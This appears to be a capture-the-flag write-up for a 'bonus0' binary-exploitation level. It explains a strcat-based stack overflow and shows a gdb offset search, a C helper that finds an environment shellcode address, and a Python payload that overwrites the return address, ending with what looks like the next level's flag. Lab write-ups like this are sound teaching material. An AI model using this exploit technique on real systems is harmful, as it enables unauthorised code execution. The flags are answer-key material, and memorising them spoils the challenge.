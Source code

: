# Bonus 0
```bash
su bonus0 #f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Steps
The program receives 2 `read()` of maximum length of `0x1000` bytes. It will later use `strcat` to append both strings. We can exploit this, the 2 buffers are stored next each other. By avoid putting a `\0` at the end of the first buffer, the `strcat` will consider the second string as part of the first one.

We inject `4095` random caracters followed by a `\n` (because there is an unchecked `strchr` using it later). Then we will inject an overflow pattern to find where the RET address is replaced.

```bash
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa�� Aa0Aa1Aa2Aa3Aa4Aa5Aa��

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

The offset is `9`, we simply have to replace this by the address of our **shellcode**.

```c
// /tmp/getenv.c

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char**argv)
{
    printf("%p\n", getenv(argv[1]));
}
```

```bash
gcc /tmp/getenv.c -o getenv
/tmp/getenv SHELLCODE
```

*We replace this value in the injection*.

```bash
python -c "print '0' *4095 + '\n' + 'Aa0Aa1Aa2' + '\xbf\xff\xf8\xa6'[::-1] + 'a4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'"> /tmp/b0.

cat /tmp/b0 - | ./bonus0
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
